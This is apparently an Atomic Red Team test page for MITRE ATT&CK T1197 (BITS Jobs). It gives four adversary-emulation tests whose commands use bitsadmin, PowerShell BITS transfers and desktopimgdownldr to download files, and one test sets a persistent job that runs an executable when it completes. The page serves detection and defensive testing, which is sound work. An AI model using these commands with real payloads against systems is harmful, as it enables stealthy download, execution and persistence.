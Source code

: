 ```yaml
---
tags: [T1197, atomic_test]
filename: "[[T1197|T1197 - BITS Jobs]]"
---
```


# T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197)
<blockquote>Adversaries may abuse BITS jobs to persistently execute code and perform various background tasks. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM).(Citation: Microsoft COM)(Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1059/001) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool.(Citation: Microsoft BITS)(Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download (e.g. [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105)), execute, and even clean up after running malicious code (e.g. [Indicator Removal](https://attack.mitre.org/techniques/T1070)). BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls.(Citation: CTU BITS Malware June 2016)(Citation: Mondok Windows PiggyBack BITS May 2007)(Citation: Symantec BITS May 2007) BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots).(Citation: PaloAlto UBoatRAT Nov 2017)(Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).(Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Bitsadmin Download (cmd)](#atomic-test-1---bitsadmin-download-cmd)

- [Atomic Test #2 - Bitsadmin Download (PowerShell)](#atomic-test-2---bitsadmin-download-powershell)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)

- [Atomic Test #4 - Bits download using desktopimgdownldr.exe (cmd)](#atomic-test-4---bits-download-using-desktopimgdownldrexe-cmd)


<br/>

## Atomic Test #1 - Bitsadmin Download (cmd)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows


**auto_generated_guid:** 3c73d728-75fb-4180-a12f-6712864d7421





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | %temp%&#92;bitsadmin1_flag.ps1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /transfer /Download /priority Foreground #{remote_file} #{local_file}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Bitsadmin Download (PowerShell)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows


**auto_generated_guid:** f63b8bc4-07e5-4112-acba-56f646f3f0bc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | $env:TEMP&#92;bitsadmin2_flag.ps1|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transferand execute a payload in multiple steps.
Note that in this test, the file executed is not the one downloaded. The downloading of a random file is simply the trigger for getting bitsdamin to run an executable.
This has the interesting side effect of causing the executable (e.g. notepad) to run with an Initiating Process of "svchost.exe" and an Initiating Process Command Line of "svchost.exe -k netsvcs -p -s BITS"
This job will remain in the BITS queue until complete or for up to 90 days by default if not removed.

**Supported Platforms:** Windows


**auto_generated_guid:** 62a06ec5-5754-47d2-bcfc-123d8314c6ae





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_path | Path of command to execute | path | C:&#92;Windows&#92;system32&#92;notepad.exe|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| local_file | Local file path to save downloaded file | path | %temp%&#92;bitsadmin3_flag.ps1|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|


#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} NULL
bitsadmin.exe /resume #{bits_job_name}
ping -n 5 127.0.0.1 >nul 2>&1
bitsadmin.exe /complete #{bits_job_name}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Bits download using desktopimgdownldr.exe (cmd)
This test simulates using desktopimgdownldr.exe to download a malicious file
instead of a desktop or lockscreen background img. The process that actually makes 
the TCP connection and creates the file on the disk is a svchost process (“-k netsvc -p -s BITS”) 
and not desktopimgdownldr.exe. See https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/

**Supported Platforms:** Windows


**auto_generated_guid:** afb5e09e-e385-4dee-9a94-6ee60979d114





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| download_path | Local file path to save downloaded file | path | SYSTEMROOT=C:&#92;Windows&#92;Temp|
| cleanup_path | path to delete file as part of cleanup_command | path | C:&#92;Windows&#92;Temp&#92;Personalization&#92;LockScreenImage|
| cleanup_file | file to remove as part of cleanup_command | string | *.md|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set "#{download_path}" && cmd /c desktopimgdownldr.exe /lockscreenurl:#{remote_file} /eventName:desktopimgdownldr
```

#### Cleanup Commands:
```cmd
del #{cleanup_path}\#{cleanup_file} >nul 2>&1
```





<br/>
